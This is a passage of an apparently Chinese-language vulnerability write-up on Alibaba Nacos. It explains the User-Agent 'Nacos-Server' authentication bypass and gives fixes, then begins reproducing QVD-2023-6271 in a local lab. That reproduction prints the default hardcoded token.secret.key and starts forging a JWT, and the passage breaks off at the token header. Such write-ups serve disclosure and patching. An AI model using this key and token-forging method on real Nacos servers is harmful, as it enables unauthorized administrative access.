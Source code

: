 ```
/nacos-2.0.0-ALPHA.1/naming/src/main/java/com/alibaba/nacos/naming/web/TrafficRevise
Filter.java
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125530.png)
TrafficReviseFilter继承了Filter⽤来处理请求，⽽⾥⾯的doFilter的就很明确了。注释中写道，当接收到其他节点服务的请求时应该被通过，如何验证是其他服务。
就是很简单的⼀个对于UA的⼀个判断逻辑
这个Constants.NACOS_SERVER_HEADER跟踪⼀下，正是Nacos-Server 经过这⼀层的验证，那么则进⼊到filterChain 过滤器链中的下⼀个filter过滤器，继续接下来的请求。
## 6. 漏洞修复
若业务环境允许，使⽤⽩名单限制相关web项⽬的访问来降低⻛险。 官⽅已发布最新安全版本，请及时下载升级⾄安全版本。
# 0x02 QVD-2023-6271 Nacos身份绕过漏洞
## 1. 漏洞概述
开源服务管理平台 Nacos 中存在身份认证绕过漏洞，在默认配置下未对 token.secret.key进⾏修改，导致远程攻击者可以绕过密钥认证进⼊后台，造成系统受控等后果。
## 2. 影响版本
**0.1.0 <= Nacos <= 2.2.0**
## 3. 环境搭建
### windows搭建
1. ⾸先从GitHub下载带有漏洞的源码：
```
https://github.com/alibaba/nacos/releases
```
2. 打开网址，找到2.2.0-BETA (Oct 28, 2022)版本。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705125944.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705130137.png)
3. 下载下来即可。
4. 我这边下载windows版本，直接解压出来，进入到该目录：
```
nacos-server-2.2.0-BETA\nacos-server-2.2.0-BETA\nacos\bin
```
5. cmd运行：
```
.\startup.cmd -m standalone
```
6. 访问地址即可：
```
http://192.168.197.1:8848/nacos/index.html#/login
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705130401.png)
## 4. 漏洞复现
在nacos中，token.secret.key值是固定死的，位置在conf下application.properties中：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705130657.png)
拿到key，这个key可以直接使用：
```
SecretKey012345678901234567890123456789012345678901234567890123456789
```
打开JWT⽹址：
```
https://jwt.io/
```
输入以下三个框，进行生成jwt token：
**Valid header：**
```
{
	"alg": "HS256",
	"typ": "JWT"
```